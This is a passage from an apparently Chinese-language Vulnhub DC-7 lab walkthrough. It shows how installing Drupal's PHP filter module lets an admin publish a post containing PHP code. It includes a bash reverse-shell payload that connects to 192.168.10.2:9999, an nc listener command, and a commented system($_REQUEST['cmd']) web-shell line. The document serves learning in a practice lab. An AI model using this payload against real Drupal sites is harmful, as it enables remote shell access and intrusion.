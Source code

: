 但是这里我原本打算，把模块文件下载到`kali`中，然后修改其中的内容，但是发现本地无法上传成功，不管有无修改，这个方式都不行

![](D:\stu\vulnhub\DC靶场\pic-7\23.jpg)

## 获取www-data的反弹1shell

只能采取第一种方式，链接下载，这里的地址，在输入框下面已经给出提示了

```shell
For example: https://ftp.drupal.org/files/projects/name.tar.gz
```

既然无法修改，那么就安装`php`模块，因为搜索发现在8版本中，取消了这个，所以需要自己主动安装。

可以先访问下面的链接地址，来确定当前版本可支持使用的`php`

```shell
https://www.drupal.org/project/php/releases/8.x-1.0
```

![](D:\stu\vulnhub\DC靶场\pic-7\24.jpg)

然后构造链接，从URL下载

```shell
https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz
```

![](D:\stu\vulnhub\DC靶场\pic-7\25.jpg)

然后在扩展列表界面，下滑，找到`php filter`，把这个勾选上，然后再下滑到最后，点击`install`

![](D:\stu\vulnhub\DC靶场\pic-7\26.jpg)

成功启动

![](D:\stu\vulnhub\DC靶场\pic-7\27.jpg)

打开一个文章，然后对其进行编辑，可以发现，可以更改其为`php`代码的形式

![](D:\stu\vulnhub\DC靶场\pic-7\28.jpg)

那么新建一个文章，然后使用`php`格式，然后进行保存

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'");
//system($_REQUEST['cmd']);		//用于测试使用
?>
```

当然，在执行上面的反弹`shell`时，需要先在`kali`中开启监听

```shell
nc -lvvp 9999
```

获取到`www-data`的`bash`
